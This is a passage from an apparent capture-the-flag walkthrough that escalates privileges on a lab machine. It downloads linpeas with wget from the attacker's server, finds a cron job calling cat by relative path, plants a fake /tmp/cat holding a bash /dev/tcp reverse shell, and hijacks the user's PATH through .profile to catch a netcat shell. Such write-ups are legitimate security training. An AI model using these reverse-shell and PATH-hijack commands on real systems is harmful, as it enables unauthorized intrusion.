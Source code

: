 ## Privilege Escalation

Next, upload linpeas.sh from our python http server to scan the whole system to see any vulnerability.
```
ayham@482cbf2305ae:~$ wget http://<machine ip>:8888/linpeas.sh
ayham@482cbf2305ae:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
ayham@482cbf2305ae:~$ ./linpeas.sh
./linpeas.sh
```
```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```
From the linpeas.sh output, it can be observed that the command

    $ bash -lc 'cat /home/F30s/health_check'

is executed. This indicates that bash acts as a login shell, initializing /etc/profile or .profile. In this scenario, a custom $PATH can be added to .profile. Since the cat command is not invoked with a full path, a fake cat binary can be created that functions as a reverse shell for the user F30s.
```
ayham@482cbf2305ae:~$ echo 'bash -i >& /dev/tcp/<machine ip>/5555 0>&1' > /tmp/cat
<h -i >& /dev/tcp/<machine ip>/5555 0>&1' > /tmp/cat
ayham@482cbf2305ae:~$ chmod +x /tmp/cat
chmod +x /tmp/cat
ayham@482cbf2305ae:~$ echo 'PATH="/tmp/:$PATH"' >> /home/F30s/.profile
echo 'PATH="/tmp/:$PATH"' >> /home/F30s/.profile
```
on the other terminal, start netcat listener

    $ nc -lnvp 5555

After few seconds netcat got reverse shell. 

```
$ nc -lnvp 5555
Listening on 0.0.0.0 5555
F30s@482cbf2305ae:~$
```

Note that the user F30s cannot use the normal cat command because the $PATH was modified. To execute the fake /tmp/cat binary, the full path must be provided. 
```
F30s@482cbf2305ae:~$ ls
ls
health_check
site_check
F30s@482cbf2305ae:~$ /bin/cat ./health_check
/bin/cat ./health_check
Health: 1337/100
F30s@482cbf2305ae:~$ /bin/cat ./site_check
/bin/cat ./site_check
url = "http://127.0.0.1/health_check"
F30s@482cbf2305ae:~$ ls -la
ls -la
total 36
drwxr-xr-x 1 F30s F30s 4096 Jun 24  2023 .
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..
```